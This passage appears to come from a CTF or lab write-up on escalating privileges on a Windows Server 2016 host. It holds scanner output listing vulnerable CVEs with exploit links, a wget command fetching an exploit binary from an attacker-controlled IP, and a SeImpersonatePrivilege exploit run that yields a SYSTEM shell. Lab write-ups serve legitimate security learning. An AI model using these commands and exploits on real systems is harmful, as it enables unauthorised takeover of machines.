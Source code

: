 ```
                                                                                                                                                            
 [!] CVE-2019-1130 : VULNERABLE                                                                                                                             
  [>] https://github.com/S3cur3Th1sSh1t/SharpByeBear                                                                                                        
                                                                                                                                                            
 [!] CVE-2019-1315 : VULNERABLE
  [>] https://offsec.almond.consulting/windows-error-reporting-arbitrary-file-move-eop.html

 [!] CVE-2019-1388 : VULNERABLE
  [>] https://github.com/jas502n/CVE-2019-1388

 [!] CVE-2019-1405 : VULNERABLE
  [>] https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2019/november/cve-2019-1405-and-cve-2019-1322-elevation-to-system-via-the-upnp-device-host-service-and-the-update-orchestrator-service/                                                                                                          
  [>] https://github.com/apt69/COMahawk

 [!] CVE-2020-0668 : VULNERABLE
  [>] https://github.com/itm4n/SysTracingPoc

 [!] CVE-2020-0683 : VULNERABLE
  [>] https://github.com/padovah4ck/CVE-2020-0683
  [>] https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/cve-2020-0683.ps1

 [!] CVE-2020-1013 : VULNERABLE
  [>] https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/

 [*] Finished. Found 9 potential vulnerabilities.
 ```

 ### This could be interesting, too
 ```
 AWSLiteAgent(Amazon Inc. - AWS Lite Guest Agent)[C:\Program Files\Amazon\XenTools\LiteAgent.exe] - Auto - Running - No quotes and Space detected
    AWS Lite Guest Agent
```

wget -UseBasicParsing "http://10.2.87.252/COMahawk64.exe" -outfile "wp.exe"

### I was pretty lost at this point, so I looked up a writeup. I should get in the habit of always doing whoami /priv. Apparently, having the "SeImpersonatePrivilege" and it being Windows Server 2016 means that it's vulnerable to the PrintSpoof exploit.

### Uploading and running this exploit gets us root.
```
C:\Windows\Temp>ps.exe -i -c cmd
ps.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```